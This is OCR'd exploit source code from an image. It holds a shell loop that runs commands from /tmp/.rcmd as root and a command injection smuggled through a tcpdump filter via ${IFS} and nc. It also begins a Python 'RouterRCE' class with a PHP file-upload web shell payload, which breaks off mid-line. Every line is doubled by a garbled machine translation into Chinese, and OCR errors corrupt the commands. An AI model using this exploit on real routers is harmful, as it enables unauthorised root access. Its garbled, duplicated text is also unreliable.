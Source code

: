 chmod 777 /tmp/.cmdout  
chmod 777 /tmp/. xmlout

chwon 100:33 /tmp/.cmdout  
chwon 100：33 /tmp/. callout

cat /tmp/.rcmd | sh >>/tmp/.cmdout 2>>/tmp/.cmdout &  
cat /tmp/.rcmd| sh >>/tmp/. cloudout 2>>/tmp/. cloudout &

sleep 1  
休眠1

rm -rf /tmp/.rcmd

fi

if \[ -e /tmp/.rdie \];then  
如果\[ -e /tmp/.rdie \];则

rm -rf /tmp/.rdie /tmp/.rcmd /tmp/.cmdout  
rm -rf /tmp/.rdie /tmp/.rcmd /tmp/. rcmout

exit 1  
1号出口

fi

done 做

\_EOT

echo tcpdump capture dev lo count 2 expr '$(cat${IFS}/tmp/.r|sh${IFS}>/dev/null${IFS}2>/dev/null${IFS}&)' | nc 127.0.0.1 1981  
echo tcpdump capture dev lo count 2 expr '$（cat${IFS}/tmp/.r| sh${IFS}>/dev/null${IFS}2>/dev/null${IFS}&）'| 127.0.0.1 1981

echo 'echo Rooted;id;pwd;uname -a' > /tmp/.rcmd

sleep 1 休眠1

cat /tmp/.cmdout && rm -rf /tmp/.cmdout 2>/dev/null  
cat /tmp/. cloudout && rm -rf /tmp/. cloudout 2>/dev/null

"""

class RouterRCE: 类RouterRCE：

def \_\_init\_\_(self, target):  
def \_\_init\_\_（self，target）：

self.target = target.strip("/")  
self.target = target.strip（“/”）

payload\_plain = """<?php  
payload\_plain =“"<？PHP

if (isset($\_FILES\['shs'\])) {  
if（$\_FILES\_shs '\]））{

$fname = $\_FILES\['shs'\]\['tmp\_name'\];  
$fname = $\_FILES \[“shs”\]“tmp\_name”\];
